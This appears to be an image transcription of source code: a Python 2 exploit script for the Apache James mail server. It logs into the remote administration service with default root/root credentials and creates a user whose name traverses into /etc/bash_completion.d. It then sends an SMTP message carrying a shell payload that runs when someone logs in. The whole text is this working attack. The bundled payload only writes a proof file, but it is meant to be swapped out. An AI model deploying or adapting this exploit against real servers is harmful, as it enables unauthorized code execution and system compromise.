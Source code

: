 ```bash
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."
```
